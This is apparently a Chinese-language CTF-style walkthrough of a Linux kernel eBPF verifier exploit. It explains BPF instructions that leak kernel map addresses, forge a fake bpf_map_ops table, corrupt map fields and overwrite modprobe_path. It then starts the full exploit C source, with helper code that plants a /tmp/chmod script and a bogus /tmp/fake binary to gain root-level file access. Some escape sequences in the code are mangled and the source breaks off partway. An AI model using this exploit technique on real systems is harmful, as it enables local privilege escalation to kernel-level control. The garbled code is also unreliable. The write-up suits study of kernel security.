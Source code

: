 完整exp 如下，这里需要有两个头文件，`bpf_insn.h` 在`samples/bpf/bpf_insn.h` 下， 主要是生成指令的一些宏定义。

因为我本机的ubuntu 内核还不支持`BPF_JMP32` 所以还需要拷贝一个`bpf.h` ，它在`include/uapi/linux/bpf.h`

整理一下 `bpf_insns` 都做了什么， 这里我创建了两个map( `ctrlmap` 和 `expmap`, 有点乱…)

第一次 `writemsg()` （ `ctrlmap[0] = 2; ctrlmap[1] = 0`）
<li>
`r9 指向 ctrlmap[0]` , load 之后 `r6 ==2`
</li>
<li>然后前面描述的漏洞触发过程， 最后 `BPF_ALU64_IMM(BPF_MUL,6,0x110)`, 得到 `r6 == 0x100`
</li>
<li>
`r7 指向 expmap[0]`, 然后 sub r6, 获取 `bpf_map_ops`和 map 的地址，写入到 `ctrlmap[0][0x10]ctrlmap[0][0x18]` 的位置</li>
- exp 中 `map_lookup_elem` 获取 泄露的地址
第二次 `writemsg()` （ `ctrlmap[0] = 2; ctrlmap[1] = 1`)
<li>把 `fake_map_ops` 保存到 `expmap[0]` 上, 修改原来的 `ops` 指向`fake_map_ops`
</li>
<li>改 `spin_lock_off`, `max_entries` ,`map_type`
</li>
<li>
`map_update_elem` 改 `modprobe_path`
</li>
```
#define _GNU_SOURCE
#include &lt;stdio.h&gt;       
#include &lt;stdlib.h&gt;      
#include &lt;unistd.h&gt;      
#include &lt;fcntl.h&gt;       
#include &lt;stdint.h&gt;      
#include &lt;string.h&gt;      
#include &lt;sys/ioctl.h&gt;   
#include &lt;sys/syscall.h&gt; 
#include &lt;sys/socket.h&gt;  
#include &lt;errno.h&gt;       
#include "linux/bpf.h"   
#include "bpf_insn.h"    

int ctrlmapfd, expmapfd;
int progfd;
int sockets[2];
#define LOG_BUF_SIZE 65535
char bpf_log_buf[LOG_BUF_SIZE];

void gen_fake_elf(){
    system("echo -ne '#!/bin/shn/bin/chmod 777 /flagn' &gt; /tmp/chmod"); 
    system("chmod +x /tmp/chmod");
    system("echo -ne '\xff\xff\xff\xff' &gt; /tmp/fake");
    system("chmod +x /tmp/fake");
}
void init(){
    setbuf(stdin,0);
    setbuf(stdout,0);
    gen_fake_elf();
}
void x64dump(char *buf,uint32_t num){         
    uint64_t *buf64 =  (uint64_t *)buf;       
    printf("[-x64dump-] start : n");         
    for(int i=0;i&lt;num;i++){                   
            if(i%2==0 &amp;&amp; i!=0){                   
                printf("n");                     
            }                                     
            printf("0x%016lx ",*(buf64+i));       
        }                                         
```